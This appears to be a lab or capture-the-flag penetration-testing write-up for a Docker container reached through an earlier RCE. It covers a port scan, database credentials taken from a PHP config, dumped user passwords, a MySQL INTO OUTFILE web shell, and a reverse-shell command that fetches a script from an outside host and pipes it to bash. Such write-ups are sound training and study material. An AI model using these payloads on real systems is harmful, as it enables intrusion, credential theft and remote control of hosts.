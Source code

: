 # L-SRV02 Docker Container

We entered this docker container by exploiting RCE in [L-SRV01](../L-SRV01/L-SRV01.md) web server.

## Enumeration

Using netcat to portscan with `nc -zv 127.0.0.1 1-65535` we find that the following ports are open.

```
localhost [127.0.0.1] 3306 (mysql) open
localhost [127.0.0.1] 80 (http) open
```

In the container's default gateway (`192.168.100.1`) we find that the following ports are open.

```
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```

Checking the `/var/www/admin/db_connect.php` file, we find credentials.

```
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
```

Username: `admin`  
Password: `!123SecureAdminDashboard321!`

Using these credentials, we can access the database in `192.168.100.1` using the command `mysql -h 192.168.100.1 -u admin -p`.

We can enumerate databases.
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| DashboardDB        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use DashboardDB
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_DashboardDB |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA            |
+----------+-----------------+
2 rows in set (0.00 sec)
```

Now we have more creds. 

Username: `gurag`  
Password: `AAAA`

We can exploit MySQL database to gain RCE using `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`.

Now we have RCE on the host machine. WE can execute commands using `curl 192.168.100.1:8080/shell.php?cmd=COMMAND`.

Now to get a reverse shell.
`curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.104.41%3A:9999%2F/revshell.sh%7Cbash%20%26'`

